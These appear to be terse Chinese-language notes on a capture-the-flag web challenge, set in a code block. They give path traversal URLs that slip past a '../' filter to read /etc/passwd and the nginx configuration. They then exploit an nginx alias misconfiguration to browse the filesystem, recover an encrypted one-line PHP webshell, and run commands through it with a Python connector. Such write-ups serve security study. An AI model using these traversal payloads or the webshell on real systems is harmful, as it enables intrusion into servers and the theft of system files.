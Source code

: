 ```php
不理我

/admin/admin.php?file=index../../&ext=php
出现please continue，估算程序员替换../

/admin/admin.php?file=....//..././....//..././....//....//..././etc/passwd&ext=
出现系统的用户信息

/admin/admin.php?file=....//..././....//..././....//....//..././/etc/nginx/sites-enabled/site.conf&ext=
查看它nginx配置文件
进行代码格式化

不正常配置
location /web-img {
  alias /images/; 
  autoindex on; #允许目录浏览（危险）
}

alias意思是别名
让用户输入/web-img 实际上访问的是/images/

访问
/web-img../ 就可以看到linux系统的根目录
/web-img../var/www/ 发现hack.php.bak，推测出黑客真实的文件hack.php
下载这个bak文件
发现是一个加密的一句话木马
输出最后的$f
进行php代码格式化
使用大佬写的python连接器，修改
url = 'http://目标网站:58794/hack.php'
python2 xx.py
system("ls");
```

